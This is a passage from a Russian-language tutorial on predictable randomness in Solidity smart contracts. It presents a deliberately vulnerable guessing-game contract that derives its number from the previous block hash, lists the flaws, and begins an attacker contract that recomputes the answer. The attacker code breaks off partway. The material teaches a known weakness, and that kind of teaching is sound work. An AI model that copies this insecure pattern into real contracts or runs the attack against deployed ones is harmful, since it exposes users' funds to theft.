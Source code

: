 ### Пример уязвимого смарт-контракта

Рассмотрим смарт-контракт для игры в угадайку, где пользователь должен угадать случайное число, чтобы выиграть 1 ETH:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

// Уязвимый контракт для игры в угадайку
contract BadRandomContract {
    // Конструктор позволяет пополнить контракт эфиром
    constructor() payable {}

    // Функция для генерации псевдослучайного числа
    function badRandom() public view returns (uint256) {
        // Используем хэш предыдущего блока для генерации числа
        uint256 seed = uint256(blockhash(block.number - 1));
        // Ограничиваем результат диапазоном от 1 до 10
        return (seed % 10) + 1;
    }

    // Функция для угадывания числа
    function guess(uint256 _guess) public {
        // Получаем случайное число
        uint256 answer = badRandom();
        // Проверяем, совпадает ли догадка с ответом
        if (_guess == answer) {
            // Отправляем 1 ETH угадывающему
            (bool sent,) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
}
```

**Проблемы в коде**:
1. Функция `badRandom` использует `blockhash(block.number - 1)`, который является публичным и известен в момент выполнения транзакции.
2. Злоумышленник может вычислить результат `badRandom` и отправить правильную догадку в той же транзакции.
3. Если контракт вызывается другим контрактом, оба будут использовать один и тот же `blockhash`, что делает результат предсказуемым.

### Пример атаки

Злоумышленник может создать атакующий контракт, чтобы эксплуатировать уязвимость:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

// Контракт для атаки на уязвимую игру в угадайку
contract HackGuessingGame {
    // Адрес уязвимого контракта
    BadRandomContract public target;

    // Конструктор принимает адрес уязвимого контракта
    constructor(address _target) {
        target = BadRandomContract(_target);
    }

    // Функция для выполнения атаки
    function attack() public {
        // Вычисляем случайное число, используя ту же логику
```